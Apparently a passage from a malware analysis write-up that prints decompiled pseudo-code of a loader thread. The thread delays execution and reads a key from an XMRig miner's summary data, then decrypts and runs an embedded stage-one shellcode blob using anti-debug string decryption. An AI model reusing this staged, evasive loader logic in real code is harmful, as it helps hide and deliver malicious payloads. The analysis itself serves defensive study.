 Thread `u_thread_routine_B_drop_shellcode` at `062F43070h` decrypts (using Rijndael in ECB mode)
and executes the **stage #1 shellcode** which is located at `062FE7340`:
```
.rdata:062FE7340    glo_encr_shellcode db 0A8h, 3Bh, 15h, 47h, 7Eh, 0D2h, 99h, 0BCh, 5, 9Dh, 0C5h, 87h
```

```c
__int64 __fastcall u_thread_routine_B_drop_shellcode(LPVOID lpThreadParameter) {
  /* ... */
  GetLocalTime(&SystemTime);
  Sleep(0x2BF20u);
  GetLocalTime(&v14);
  if ( SystemTimeToFileTime(&SystemTime, &FileTime)
    && SystemTimeToFileTime(&v14, &v12)
    && *(_QWORD *)&v12 - *(_QWORD *)&FileTime > 0x6B49D1FFui64
    && (CreateDirectoryA("C:\\depot", 0i64) || GetLastError() == 183) ) {
    // "version": "6.20.0",
    // "kind": "miner",
    // "ua": "XMRig/6.20.0 (Windows NT 6.1; Win64; x64) libuv/1.44.2 gcc/11.2.0",
    summary_file = (char *)u_fetch_summary_file();
    if ( summary_file ) {
      xor_key = u_create_str_decr_key_w_ANTIDEBUG();
      aes_key = u_decrypt_str(2, 16, xor_key);  // "version": "
      rijndael_key = strstr(summary_file, aes_key);
      if ( rijndael_key ) {
        buf = (char *)VirtualAlloc(0i64, 0x4470ui64, 0x1000u, 0x40u);
        memcpy(buf, &glo_encr_shellcode, 0x4470ui64);
        j_u_j_rijndael_key_sched(rijndael, rijndael_key);
        free(summary_file);
        if ( glo_const_thread_B_run_once ) {
          v7 = 0i64;
          do {
            v8 = &buf[v7];
            v7 += 16i64;
            u_j_rijndael_decrypt(rijndael, v8);
          } while ( glo_const_thread_B_run_once > v7 );
        }
        v9 = u_create_str_decr_key_w_ANTIDEBUG();
        v10 = u_decrypt_str(3, 44, v9);         // the decryption of this blob was successful
        if ( !memcmp(buf, v10, 0x2Aui64) ) {
          v15[0] = 0i64;
          v15[1] = 0i64;
          // len('the decryption of this blob was successful') = 42
          ((void (__fastcall *)(__int64 *))(buf + 42))(v15);// next layer
        }
      }
    }
  }
  return 0i64;
}
```
